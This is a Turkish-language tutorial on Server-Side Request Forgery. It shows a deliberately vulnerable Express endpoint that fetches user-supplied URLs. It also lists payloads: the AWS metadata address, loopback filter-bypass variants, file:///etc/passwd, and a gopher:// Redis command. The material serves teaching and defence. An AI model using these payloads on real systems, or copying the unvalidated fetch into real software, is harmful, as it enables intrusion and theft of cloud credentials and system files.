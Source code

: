 # Server-Side Request Forgery
Bir web sunucusu, kullanıcı girdisine bağlı olarak uzak kaynakları getiriyorsa, saldırgan bu sunucuyu kendi belirlediği URL’lere istek göndermeye zorlayabilir. İlk bakışta bu çok kritik görünmese de, web uygulamasının yapılandırmasına bağlı olarak SSRF zafiyetleri çok ciddi sonuçlara yol açabilir. Ayrıca, eğer web uygulaması kullanıcıdan gelen URL şemasına veya protokolüne güveniyorsa, saldırgan URL şemasını manipüle ederek daha da istenmeyen davranışlara sebep olabilir. Örneğin, SSRF zafiyetlerinin istismarında yaygın olarak kullanılan URL şemalarından biri:
- gopher://: Belirtilen adrese rastgele byte’lar gönderebilir. Saldırgan bunu kullanarak keyfi HTTP POST istekleri gönderebilir veya SMTP sunucuları ya da veritabanları gibi diğer servislerle iletişim kurabilir.

Yaygın sömürü yolları:
- Cloud Meta Verilerine Erişim
- Sunucudaki dosyaları sızdırmak
- Ağ keşfi
- Ağdaki belirli hizmetlere paketler göndermek, genellikle başka bir sunucuda Uzaktan Komuta Yürütme elde etmek için

# SSRF Keşfi
Örnek: Bir sunucu bir URL almak için kullanıcı girişini kabul eder.
```js
const express = require('express');
const axios = require('axios');
const app = express();
const port = 3000;

app.get('/user/image', async function (req, res) {
  const imgUrl = req.body.imgUrl;
  const imageReq = await axios.get(imgUrl);
  user.updateProfileImage(imageReq.data);
  res.send(imageReq.data);
});

app.listen(port, () => {
  console.log(`Listening on http://localhost:${port}`);
});
```

saldırgan aşağıdaki gibi girdi sağlar:
```
http://169.254.169.254/latest/meta-data/
```

Bu, AWS EC2 meta veri hizmetinden hassas bilgileri alır.

# Filtreleri atlamak
```
http://localhost:80
http://localhost:22
https://localhost:443
http://127.0.0.1:80
http://127.0.0.1:22
https://127.0.0.1:443
http://0.0.0.0:80
http://0.0.0.0:22
https://0.0.0.0:443
http://[::]:80/
http://[0000::1]:80/
http://[0:0:0:0:0:ffff:127.0.0.1]
http://[::ffff:127.0.0.1]
http://127.127.127.127
http://127.0.1.3
http://127.0.0.0
http://0/
http://127.1
http://127.0.1
```

Prefix/Suffix tabanlı bypasslar ve URL manipülasyon teknikleri için:
- https://portswigger.net/web-security/ssrf/url-validation-bypass-cheat-sheet

# LFI ve SSRF
SSRF zafiyetlerinde, uygulamaya sağlanan URL’nin bir parçası yerel dosya sistemine erişim için kullanılabilir. Özellikle file:// şeması, web sunucusunun yerel dosyaları okumasına olanak sağlar.

Örnek olarak, sunucu imgUrl parametresini fetch etmek için kullanıyorsa, saldırgan aşağıdaki URL’yi sağlayabilir:
```
file:///etc/passwd
```

Bu, sunucudaki hassas dosyaların içeriğini döndürebilir ve uygulamanın normal işleyişi dışında information disclosure sağlar.

# Gopher Protokolü ve SSRF
Gopher, HTTP’ye benzer şekilde sunucular arasında veri iletimi için kullanılan eski bir protokoldür. SSRF zafiyetlerinde özellikle tehlikelidir, çünkü saldırganlar sadece GET/POST değil, keyfi protokoller ve ham paketler gönderebilir.

Neden tehlikeli:
- HTTP POST veya diğer protokolleri taklit edebilir.
- SMTP, Redis, gibi arka uç servisleri ile iletişim kurabilir.

## Örnek kullanım
Bir SSRF zafiyeti olan uygulama, kullanıcıdan aldığı URL’yi fetch ediyorsa, saldırgan şu URL’yi verebilir:
```
gopher://127.0.0.1:6379/_SET%20key%20123
```
Bu örnekte:
- 127.0.0.1:6379 → Redis sunucusu
- _SET key 123 → Redis komutu, Gopher protokolü üzerinden gönderiliyor

Sunucu bu isteği gönderebilir ve internal servislere komut çalıştırabilir.

